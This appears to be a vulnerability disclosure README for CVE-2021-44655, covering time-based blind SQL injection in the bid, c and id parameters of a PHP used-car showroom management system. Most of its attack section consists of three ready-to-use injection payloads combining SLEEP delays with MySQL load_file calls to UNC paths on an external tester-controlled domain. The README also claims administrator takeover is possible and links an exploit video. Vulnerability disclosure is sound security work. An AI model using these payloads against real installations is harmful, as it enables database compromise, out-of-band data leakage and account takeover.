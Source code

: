 ## [CVE-2021-44655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44655)

## [Software](https://www.sourcecodester.com/php/15067/online-pre-ownedused-car-showroom-management-system-php-free-source-code.html)

## [Vendor](https://www.sourcecodester.com/users/tips23)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44655/docs/Screenshot%202021-12-21%20233803.png)


## Description:
The `bid`, `c` & `id` parameters from /used_car_showroom/ node app on Online-Pre-owned/Used Car Showroom Management 1.0 system appear to be vulnerable to Multiple time-based blind SQL injection attacks. The payload '+(select load_file('\\2z2p3k6kl8xuxf3ykb2dc84ocfi8600orrfi29qy.nu11secur1typenetrationtestingengineer.net\nxj'))+' was submitted in the bid parameter. This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. The application interacted with that domain, indicating that the injected SQL query was executed. The attacker can take administrator account control on this system. Status: CRITICAL

[+] Payloads:

- Multiple: `bit`, `c` & `id`

```mysql
---
Parameter: bid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=product_per_brand&bid=7'+(select load_file('\\\\2z2p3k6kl8xuxf3ykb2dc84ocfi8600orrfi29qy.nu11secur1typenetrationtestingengineer.net\\nxj'))+'' AND (SELECT 3670 FROM (SELECT(SLEEP(5)))hxug) AND 'ovPl'='ovPl
---


---
Parameter: c (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=categories&c=2'+(select load_file('\\\\xyzk2f5fk3wpwa2tj618b33jbah35vvjmmadx4lt.nu11secur1typenetrationtestingengineers.net\\thk'))+'' AND (SELECT 4821 FROM (SELECT(SLEEP(3)))DuhP) AND 'vkhG'='vkhG
---


---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=view_product&id=3'+(select load_file('\\\\rc7eg9j9yxaja4gnx0f2pxhdp4vxj17sag13srh.nu11secur1typenetrationtestingengineers.net\\deo'))+'' AND (SELECT 8828 FROM (SELECT(SLEEP(3)))VaSc) AND 'gDVf'='gDVf
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44655)

## Proof and Exploit:
[href](https://streamable.com/5idvpy)
